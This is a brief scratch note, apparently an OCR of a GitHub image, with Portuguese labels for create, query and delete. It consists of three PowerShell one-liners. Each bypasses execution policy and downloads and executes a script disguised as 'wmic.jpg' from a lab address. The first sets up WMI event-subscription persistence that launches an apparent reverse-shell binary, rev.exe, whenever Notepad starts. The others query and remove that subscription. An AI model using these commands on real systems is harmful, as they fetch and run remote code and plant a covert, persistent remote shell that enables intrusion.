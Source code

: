 # temp


será apagado

criar
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); pettily -EventName reversenotepad -PermanentCommand 'cmd.exe /c c:\temp\rev.exe' -Trigger ProcessStart -ProcessName notepad.exe"

consultar
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); snaking -Name reversenotepad"

excluir
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); snaking -Name reversenotepad | Remove-WmiObject"
